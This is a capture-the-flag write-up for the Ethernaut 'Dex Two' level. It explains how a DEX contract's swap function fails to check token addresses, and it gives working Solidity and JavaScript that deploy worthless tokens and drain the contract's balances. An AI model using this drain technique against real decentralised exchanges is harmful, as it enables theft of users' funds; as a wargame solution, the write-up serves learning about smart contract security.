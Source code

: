# Ethernaut: 23. Dex Two

> This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.
>
> You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.
>
> You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

**Objective of CTF:**

- Drain both tokens from the contract.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/access/Ownable.sol";

contract DexTwo is Ownable {
  address public token1;
  address public token2;

  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapAmount(address from, address to, uint amount) public view returns (uint) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint) {
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;

  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
    _mint(msg.sender, initialSupply);
    _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

Here we have another DEX similar to the previous level, but this one requires both tokens to be depleted. There is one subtle yet crucial difference within the `swap` function, it does not check the validity of token addresses! In the previous one, we had a `require` statement checking that both `from` and `to` tokens are that of either tokens the DEX is responsible of. This gives us an idea of an attack, creating our own tokens and somehow use them to drain the DEX of its tokens.

Again, we have 10 of each token and the DEX has 100 of each. We will create Token 3 and Token 4, and let DEX have 100 of each. We will then make the following trades:

- Send 100 Token 3 to get 100 Token 1. Since the DEX balance of both `to` and `from` tokens are the same, the swap amount will be equal to the amount we set.
- Send 100 Token 4 to get 100 Token 2. Since the DEX balance of both `to` and `from` tokens are the same, the swap amount will be equal to the amount we set.

This way, the tokens will be depleted by our worthless and arbitrarily created tokens! We use Remix to create [Token 3](0xF25aEe0A68c3EC602F0bDD9E45F062dF611F774B) and [Token 4](https://rinkeby.etherscan.io/address/0xc975954d79412d58746240c536220192485AECBB):

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract MyToken3 is ERC20 {
  constructor() ERC20("MyToken3", "MT3") {
    _mint(msg.sender, 1000);
  }
}
contract MyToken4 is ERC20 {
  constructor() ERC20("MyToken4", "MT4") {
    _mint(msg.sender, 1000);
  }
}
```

After deploying the tokens, transfer 100 of each token to the DEX address, and also give an allowance of 100 of both tokens to the DEX. The actual trades are then simply as follows:

```js
// settings
const amount = 100;
const T1 = await contract.token1();
const T2 = await contract.token2();
const T3 = '0xF25aEe0A68c3EC602F0bDD9E45F062dF611F774B'; // my Token 3
const T4 = '0xc975954d79412d58746240c536220192485AECBB'; // my Token 4

// deplete Token 1
// DEX must have 'amount' T3, and also 'amount' allowance to take T3 from you
await contract.swap(T3, T1, amount);
// deplete Token 2
// DEX must have 'amount' T4, and also 'amount' allowance to take T4 from you
await contract.swap(T4, T2, amount);
```

To confirm the depletion, check the balances:

```js
(await contract.balanceOf(await contract.token1(), contract.address)).toNumber();
(await contract.balanceOf(await contract.token2(), contract.address)).toNumber();
```

That is all!
